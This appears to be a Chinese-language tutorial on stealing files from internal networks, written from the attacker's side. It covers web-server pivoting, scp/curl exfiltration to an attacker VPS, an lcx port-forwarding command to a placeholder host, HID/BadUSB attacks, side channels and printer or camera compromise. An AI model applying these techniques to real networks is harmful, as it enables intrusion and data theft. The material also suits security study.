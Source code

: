 # 内网文件窃取

本文主要介绍了攻击者视角下对于内网渗透的一般过程，简单讨论窃取内网文件的一些常见方法，以及不那么常见但更容易让人疏忽也更具威胁的一些方法。作者：@[王泉](wangquan@hrbeu.edu.cn)

### 内网渗透的真实场景

一般来讲，攻击者有三种途径进入内网：

   1. 利用Web漏洞控制Web服务器;
   2. 利用钓鱼控制单台内网主机;
   3. 利用WIFI接入点在内网进行MITM或钓鱼。

这是最常见的攻击者进入内网的三种途径，在接下来的测试里，假设攻击者已经通过其中一种方法，完全控制了内网中的一台机器（可能是个人主机、Web服务器、邮件服务器或者文件服务器等）。++ 在此基础上，攻击者的目标是要获取内网中该机器上的A文件，即将A文件复制到攻击者的主机。 ++ 下面完全从真实的入侵者视角讨论各种情况下可以采取的文件窃取。

### 内网窃取文件的常规方法

- #### 场景一： 从网站入侵小型内网

	下图为最常见的小企业内网结构：

	![小型内网结构](net.jpg)

	右下方为攻击者主机，攻击者通过公网VPS作为代理，绕过防火墙，利用Web漏洞控制了网站，通过进一步提权控制了Web服务器（Linux）。Web服务器有2块网卡，一块IP为10.0.27.131,接通外网;另一块IP为192.168.5.129,接通内网。内网中有3台服务器，一台无线路由器，还有一台树莓派（代表打印机等物联网设备）。内网设备都不连外网。

	- ##### 真实环境模拟

		- Web服务器1台，连接外网，最好是Linux（debian）。
		- Linux（debian）服务器1台，运行SVN和FTP，托管员工的代码，并作为文件服务器，不连外网。
		- Windows主机1台，员工主机，不连外网。

	- ##### 当前权限

		黑客通过网站漏洞控制了网站，进一步提权控制了网站所在的服务器。这是最常见的场景。黑客拥有以下权限：

		1. 能够从外网访问Web服务器上的网站;
		2. 操控整个网站;
		3. 拥有Web服务器root权限，并能够通过ssh连接（一般稍微安全一些的公司Web服务器都不能直接拿到root权限，只能拿到普通用户权限，但这里为了方便，假设直接拿到root）;

	- ##### 目标1： 窃取当前Web服务器上的文件A

		- 方法1： 直接将文件A挂载到网站目录下，通过正常访问下载文件。
		- 方法2： ssh登录到该服务器，将文件发送到黑客控制的VPS，scp、wget、curl命令都可以实现。
		- 方法3： 如果服务器上对执行命令有限制，进入文件A所在目录，执行以下命令：`python -m SimpleHTTPServer`。开启一个临时的HTTP服务，在外网访问`http://10.0.27.131:8888/A`即可下载文件。类似的也可以开启临时ftp服务，根据防火墙的过滤情况和服务器情况而定。

	- ##### 目标2： 窃取内网主机上的文件A

		内网的机器都不能直接访问外网，但能够访问受黑客控制的Web服务器。

		- 方法1： 利用端口转发，使黑客主机能够访问到内网机器的端口，常用工具及说明如下：

			| 工具    | 功能   | 使用 | 说明|
			|--------|--------|-----|-----|
			|lcx|单个端口映射|VPS上执行`lcx.exe –listen 8080 80`，Web服务器执行`lcx.exe –slave X.X.X.X 80 192.168.5.128 80`|将内网服务器192.168.5.128的80端口转发到Web服务器的8080端口|
            |earthworm|SOCKS代理和lcx端口转发|略|可以像lcx那样映射内网端口，也可以用来做socks5反向代理，比较强大|
            |shadowsocks|可穿透防火墙的socks5代理|略|自定义加密方式，可以穿透防火墙，比较方便|
            |...|...|...|...|

		在Web服务器上搭建好代理/反向代理或者端口映射后，就可以进行内网漫游。然后进一步控制域控，利用IPC开启共享，将文件A拷贝到Web服务器上，再按目标1的方法获取。

### 内网完全隔离情况下窃取文件方法

以上讲述的窃取方法只能应用于内网有出口的情况。对于一些特殊的内网环境，例如内网完全隔离，没有公网Web服务器，需要采取一些特殊的方法。

- #### HID攻击

	HID攻击全称为人体输入学设备攻击，利用鼠标，键盘等设备进行攻击，窃取文件。国外的Bad USB，Teenesy，国内的烧鹅，都能实现这种攻击。原理大概是，将鼠标或者键盘驱动刷到芯片里，插到电脑USB口之后，电脑识别为键盘，不会对该设备进行扫描。芯片模拟键盘输入，执行之前写入在芯片里的powershell脚本，进行攻击。

	我之前有一套烧鹅，利用powershell能够在插上电脑后2秒内种上木马，也能从电脑窃取文件。

- #### 广义的边信道攻击

	- **电磁**：西电有团队实现了通过分析电脑运行程序过程中的泄漏的电磁信号，还原出程序的汇编码。

	- **图片**：通过自定义的编码压缩方式，将一个大的目标文件编码成一张图片，拍照后根据图片还原出文件。

	- **声音**：通过自定义的编码压缩方式，将一个大的目标文件编码成一段音频，将这段音频录制下来然后还原。我测试了下，将目标txt文件内容转化为ASCII码，然后转化为每个字符转化为8位二进制码，由原始txt文件生成了一个二进制串。再调用Windows系统自带的蜂鸣器，1代表高音，0代表低音，成功将文件转化为一段音频。录制下来后很容易辨认。（Ps：但我没能还原文件，处理高音和低音出了一些问题，但这种方法应该是可行的。）

- #### 入侵物联网设备

	虽然内网完全隔离，无法访问外网，外网也无法访问。但内网中一些容易忽略的物联网设备是连接外网的，或许能够从这个方面进行突破。

	- ##### 可能被忽略的监控摄像头

		监控摄像头分为两种：闭路摄像头和网络摄像头。

        - 闭路摄像头不连网，通过HDMI线传输视频信号，利用电视监控。
        - 网络摄像头一般都有一个公网IP，用户通过访问公网IP，登录后对摄像头进行管理。大多数网络摄像头都很不安全，存在弱口令和各种漏洞。攻击者如果能够找到摄像头分布的网段，就很有可能控制摄像头，可能窃取到一些文件。

	- ##### 更加被忽略的打印机

		打印机经常被忽略。一方面，结合上面的边信道攻击，攻击者可以将目标文件经过特殊编码后打印，然后带走打印文件，解码还原出原文件。另一方面，如果采用的是智能打印机，攻击者有可能登录到打印机上，获取所有打印历史记录，窃取文件。





